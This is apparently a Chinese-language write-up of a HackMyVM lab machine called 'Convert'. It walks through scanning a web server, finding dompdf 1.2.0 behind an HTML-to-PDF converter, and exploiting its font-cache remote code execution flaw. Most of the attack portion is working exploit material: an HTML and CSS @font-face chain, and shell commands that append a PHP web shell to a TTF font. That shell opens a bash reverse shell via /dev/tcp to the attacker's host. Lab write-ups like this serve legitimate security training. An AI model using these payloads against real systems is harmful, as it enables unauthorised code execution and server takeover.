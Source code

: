 # Convert

2024.12.28 https://hackmyvm.eu/machines/machine.php?vm=Convert

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

22 端口上不允许匿名登陆，看看 80 web 上有什么信息：http://192.168.5.40/ 显示了一个网页转化为 pdf 的网站。

先对其进行目录扫描，看看有什么：

```
http://192.168.5.40/index.php            (Status: 200) [Size: 1026]
http://192.168.5.40/upload               (Status: 301) [Size: 169] [--> http://192.168.5.40/upload/]
```

http://192.168.5.40/upload 403 不允许访问。其中转化出来的 pdf 是存在这个目录中 http://192.168.5.40/upload/

重点来看这个 html to pdf 的功能，把自己转换出来的 pdf 保存在 kali 上，然后查看 pdf 详细信息：

```
pdfinfo 1111.pdf

Producer:        dompdf 1.2.0 + CPDF
CreationDate:    Sun Apr 28 11:03:52 2024 CST
ModDate:         Sun Apr 28 11:03:52 2024 CST
```

看到是 dompdf 1.2.0 转换生成的，经过搜索，这个 pdf 转换库，存在 RCE 漏洞 51270.py，进行利用：

```
python3 51270.py --inject http://192.168.5.40/index.php?url= --dompdf http://192.168.5.40/dompdf/

[err]: failed to trigger the payload!
[inf]: url: http://192.168.5.40/dompdf/lib/fonts/exploitfont_normal_f776a221d3d01869caf352500f07dfe4.php - status_code: 404
[inf]: process complete!
```

但是最后出现 php 后门访问不到的情况。

经过搜索，找到了一个新的利用 payload：

```
https://github.com/positive-security/dompdf-rce
```

创建 3 个文件：

index.html:

```
<link rel=stylesheet href='http://192.168.5.3:9001/exploit.css'>
```

exploit.css:

```
@font-face {
    font-family:'exploitfont';
    src:url('http://192.168.5.3:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
```

exploit_font.php:

```
find / -name "\.ttf" 2>/dev/null # 随意找到一个 ttf 文件，在其末尾写入 web shell
cp /usr/share/fonts/truetype/lato/Lato-Medium.ttf exploit_font.php

echo '<?php system("/bin/bash -c \'/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\'");?>' >> exploit_font.php

echo -n http://192.168.5.3:9001/exploit_font.php |md5sum
f776a221d3d01869caf352500f07dfe4
```

然后对这个 url 进行 pdf 转换： http://192.168.5.3:9001/index.html ，然后在访问写入的后门链接：

```
http://192.168.5.40/dompdf/lib/fonts/exploitfont_normal_f776a221d3d01869caf352500f07dfe4.php
```
